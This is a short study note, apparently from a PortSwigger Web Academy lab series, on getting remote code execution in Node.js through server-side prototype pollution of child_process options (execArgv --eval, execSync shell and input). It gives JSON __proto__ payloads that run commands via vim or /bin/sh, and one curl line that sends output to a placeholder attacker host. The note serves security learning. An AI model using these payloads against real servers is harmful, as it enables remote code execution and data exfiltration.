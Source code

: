 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/rce-via-methods/"}
---
```



---

Methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property.

As this gadget lets you directly control the command-line arguments, this gives you access to some attack vectors that wouldn't be possible using `NODE_OPTIONS`. Of particular interest is the `--eval` argument, which enables you to pass in arbitrary JavaScript that will be executed by the `child_process`.

```json
"execArgv": [ 
	="--eval=require('<module>')"= 
]
```

In addition to `fork()`, the `child_process` module contains the `execSync()` method, which executes an arbitrary string as a system command. By chaining these JavaScript and command injection sinks, we can probably gain full RCE capability on the server.

---

`execSync()` can take an options object, which includes properties like:

- `shell` , can be used to call `/bin/sh`
- `input` , sends data to the `stdin` of the child process

If both of these are left **undefined**. It can be vulnerable to Prototype Pollution. Besides that, here is an example of using `vim` as a shell

```json
{
  "__proto__": {
    "shell": "vim",
    "input": ":! whoami\n"
  }
}
```


---

Some workarounds if `stdin` is not read properly.

1. **`xargs` (converts `stdin`  to arguments)**

```json
{
  "__proto__": {
    "shell": "/bin/sh",
    "input": "id | xargs\n"
  }
}
```

2. **Using `curl` with stdin (`-d @-`**

```json
{
  "__proto__": {
    "shell": "/bin/sh",
    "input": "curl -d @- http://attacker.com\n"
  }
}
```
